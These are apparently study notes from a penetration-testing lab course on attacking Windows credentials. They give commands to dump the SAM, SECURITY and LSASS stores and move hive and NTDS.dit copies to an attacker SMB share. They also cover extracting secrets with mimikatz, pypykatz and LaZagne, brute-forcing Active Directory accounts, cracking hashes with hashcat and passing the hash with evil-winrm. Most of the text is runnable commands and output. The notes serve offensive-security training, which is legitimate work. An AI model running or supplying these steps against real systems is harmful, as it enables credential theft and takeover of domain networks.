


The `Windows client authentication process` involves multiple modules responsible for logon, credential retrieval, and verification. Among the various authentication mechanisms in Windows, Kerberos is one of the most widely used and complex. The `Local Security Authority (LSA)` is a protected subsystem that authenticates users, manages local logins, oversees all aspects of local security, and provides services for translating between user names and security identifiers (SIDs).



## Attacking SAM, SYSTEM and SECURITY

### Use case - Local Administrative Access to a target system

1. We would be having access to three registry hives that we can copy from the target system to our attacker system.

|Registry Hive |Description																														|
|--------------|--------------------------------------------------------------------------------------------------------------------------------|
|HKLM\SAM 	   |Contains password hashes for local user accounts. These hashes can be extracted and cracked to reveal plaintext passwords.	    |
|HKLM\SYSTEM   |Stores the system boot key, which is used to encrypt the SAM database. This key is required to decrypt the hashes.				|
|HKLM\SECURITY | Contains sensitive information used by the Local Security Authority (LSA), including cached domain credentials (DCC2), cleartext 						passwords, DPAPI keys, and more. |

#### Using reg.exe to copy registry hives

```cmd
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

If we're only interested in dumping the hashes of local users, we need only `HKLM\SAM` and `HKLM\SYSTEM`. However, it's often useful to save `HKLM\SECURITY` as well, since it can contain cached domain user credentials on domain-joined systems, along with other valuable data. Once these hives are saved offline, we can use various methods to transfer them to our attack host. In this case, we'll use Impacket's smbserver in combination with some basic CMD commands to move the hive copies to a share hosted on our attacker machine.

#### Creating a share with smbserver

To create the share, we simply run `smbserver.py -smb2support`, specify a name for the share (e.g., `CompData`), and point to the local directory on our attack host where the hive copies will be stored (e.g., `/home/ltnbob/Documents`). The `-smb2support` flag ensures compatibility with newer versions of SMB.

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

#### Moving hive copies to share

```bash
move sam.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData
```

### Dumping hashes with secretsdump

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

```bash
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```

### Cracking hashes with Hashcat

#### Running Hashcat against NT hashes

```bash
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### DCC2 hashes

As mentioned previously, hklm\security contains cached domain logon information, specifically in the form of DCC2 hashes. These are local, hashed copies of network credential hashes. An example is:

**inlanefreight.local/Administrator:$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25**

```bash
hashcat -m 2100 '$DCC2$10240#administrator#23d97555681813db79b2ade4b4a6ff25' /usr/share/wordlists/rockyou.txt
```

### Remote dumping & LSA secrets considerations

#### Dumping LSA secrets remotely

```bash
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

#### Dumping SAM Remotely

```bash
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

## Attacking LSASS

### Dumping LSASS process memory

#### Task Manager method

1. Open `Task Manager`
2. Select the `Processes` tab
3. Find and right click the `Local Security Authority Process`
4. Select `Create dump file`

#### Rundll32.exe & Comsvcs.dll method

The Task Manager method is dependent on us having a GUI-based interactive session with a target. We can use an alternative method to dump LSASS process memory through a command-line utility called rundll32.exe. This way is faster than the Task Manager method and more flexible because we may gain a shell session on a Windows host with only access to the command line. It is important to note that modern anti-virus tools recognize this method as malicious activity.

Before issuing the command to create the dump file, we must determine what process ID (PID) is assigned to lsass.exe. This can be done from cmd or PowerShell:

#### Finding LSASS's PID in cmd

```bash
C:\Windows\system32> tasklist /svc
```

#### Finding LSASS's PID in PowerShell

```bash
PS C:\Windows\system32>  Get-Process lsass
```

#### Creating a dump file using PowerShell

```bash
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

### Using Pypykatz to extract credentials

#### Running Pypykatz

```bash
pypykatz lsa minidump /home/sam/Documents/lsass.dmp
```

DUMP file contains -

1. **MSV** - MSV is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database. Pypykatz extracted the SID, Username, Domain, and even the NT & SHA1 password hashes associated with the bob user account's logon session stored in LSASS process memory. This will prove helpful in the next step of our attack covered at the end of this section.

2. **WDIGEST** - WDIGEST is an older authentication protocol enabled by default in Windows XP - Windows 8 and Windows Server 2003 - Windows Server 2012. LSASS caches credentials used by WDIGEST in clear-text. This means if we find ourselves targeting a Windows system with WDIGEST enabled, we will most likely see a password in clear-text. Modern Windows operating systems have WDIGEST disabled by default. Additionally, it is essential to note that Microsoft released a security update for systems affected by this issue with WDIGEST.

3. **Kerberos** - Kerberos is a network authentication protocol used by Active Directory in Windows Domain environments. Domain user accounts are granted tickets upon authentication with Active Directory. This ticket is used to allow the user to access shared resources on the network that they have been granted access to without needing to type their credentials each time. LSASS caches passwords, ekeys, tickets, and pins associated with Kerberos. It is possible to extract these from LSASS process memory and use them to access other systems joined to the same domain.

4. **DPIAPI** - Mimikatz and Pypykatz can extract the DPAPI masterkey for logged-on users whose data is present in LSASS process memory. These masterkeys can then be used to decrypt the secrets associated with each of the applications using DPAPI and result in the capturing of credentials for various accounts. DPAPI attack techniques are covered in greater detail in the Windows Privilege Escalation module.

#### Cracking the NT Hash with Hashcat

```bash
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Attacking Windows Credential Manager

### Windows Vault and Credential Manager

Credential Manager is a feature built into Windows since Server 2008 R2 and Windows 7. Thorough documentation on how it works is not publicly available, but essentially, it allows users and applications to securely store credentials relevant to other systems and websites. Credentials are stored in special encrypted folders on the computer under the user and system profiles (MITRE ATT&CK):

`%UserProfile%\AppData\Local\Microsoft\Vault\`

`%UserProfile%\AppData\Local\Microsoft\Credentials\`

`%UserProfile%\AppData\Roaming\Microsoft\Vault\`

`%ProgramData%\Microsoft\Vault\`

`%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\`

```bash
C:\Users\sam>rundll32 keymgr.dll,KRShowKeyMgr
```

### Enumerating credentials with cmdkey

```bash
C:\Users\sam>whoami
srv01\sam

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

```bash
C:\Users\sam>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

### Extracting credentials with Mimikatz

```bash
C:\Users\Administrator\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...
```

## Attacking Active Directory and NTDS.dit

### Dictionary attacks against AD accounts using NetExec

Automated list generator such as the Ruby-based tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) to convert a list of real names into common username formats.

#### Creating a custom list of usernames

```bash
./username-anarchy -i /home/sam/usernames.txt
```

#### Enumerating valid usernames with Kerbrute

```bash
./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt
```

#### Launching a brute-force attack with NetExec

```bash
netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

### Capturing NTDS.dit

#### Connecting to a DC with Evil-WinRM

```bash
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

#### Checking local group membership

```bash
*Evil-WinRM* PS C:\> net localgroup
```

We are looking to see if the account has local admin rights. To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights. We also will want to check what domain privileges we have.

#### Checking user account privileges including domain

```bash
*Evil-WinRM* PS C:\> net user bwilliamson
```

#### Creating shadow copy of C:

```bash
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

#### Copying NTDS.dit from the VSS

```bash
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

#### Transferring NTDS.dit to attack host

```bash
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```

#### Extracting hashes from NTDS.dit

```bash
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```

#### A faster method: Using NetExec to capture NTDS.dit

```bash
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil
```

### Cracking hashes and gaining credentials

#### Cracking a single hash with Hashcat

```bash
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

### Pass the Hash (PtH) considerations

#### Pass the Hash (PtH) with Evil-WinRM Example

```bash
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```

## Credential Hunting in Windows

`Credential hunting` is the process of performing detailed searches across the file system and through various applications to discover credentials.

### Search Tools

#### Windows Search



#### LaZagne

[LaZagne](https://github.com/AlessandroZ/LaZagne) to quickly discover credentials that web browsers or other installed applications may insecurely store. LaZagne is made up of `modules` which each target different software when looking for passwords. 

|Module    | Description																					   |
|----------|---------------------------------------------------------------------------------------------------|
|browsers  | Extracts passwords from various browsers including Chromium, Firefox, Microsoft Edge, and Opera   |
|chats 	   | Extracts passwords from various chat applications including Skype								   |
|mails 	   | Searches through mailboxes for passwords including Outlook and Thunderbird						   |
|memory    | Dumps passwords from memory, targeting KeePass and LSASS  										   |
|sysadmin  | Extracts passwords from the configuration files of various sysadmin tools like OpenVPN and WinSCP |
|windows   | Extracts Windows-specific credentials targeting LSA secrets, Credential Manager, and more         |
|wifi 	   | Dumps WiFi credentials  																		   |

```bash
C:\Users\sam\Desktop> start LaZagne.exe all
```

##### Example

```bash
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: bob ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: 10.129.202.51
Login: admin
Password: SteveisReallyCool123
Port: 22
```

#### findstr

```bash
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

### Additional considerations

Here are some other places we should keep in mind when credential hunting:

* Passwords in Group Policy in the SYSVOL share
* Passwords in scripts in the SYSVOL share
* Password in scripts on IT shares
* Passwords in web.config files on dev machines and IT shares
* Password in unattend.xml
* Passwords in the AD user or computer description fields
* KeePass databases (if we are able to guess or crack the master password)
* Found on user systems and shares
* Files with names like pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, and Sharepoint


